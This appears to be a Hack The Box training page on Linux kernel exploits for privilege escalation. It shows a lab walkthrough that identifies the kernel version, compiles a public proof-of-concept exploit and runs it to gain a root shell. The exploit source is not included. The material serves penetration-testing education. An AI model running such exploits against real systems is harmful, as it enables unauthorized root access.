 1. [Page 20](javascript: void\(0\);)
2. Kernel Exploits

# Kernel Exploits

---

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while others require modification. A quick way to identify exploits is to issue the command `uname -a` and search Google for the kernel version.

Note: Kernel exploits can cause system instability so use caution when running these against a production system.

---

## Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.

Kernel Exploits

```shell-session
frank-106@htb[/htb]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Kernel Exploits

```shell-session
frank-106@htb[/htb]$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download, it to the system using `wget` or another file transfer method. We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

Kernel Exploits

```shell-session
frank-106@htb[/htb]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Next, we run the exploit and hopefully get dropped into a root shell.

Kernel Exploits

```shell-session
frank-106@htb[/htb]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Finally, we can confirm root access to the box.

Kernel Exploits

```shell-session
root@htb[/htb]# whoami

root
```

Note: The target system has been updated, but is still vulnerable. Use a kernel exploit created in 2021.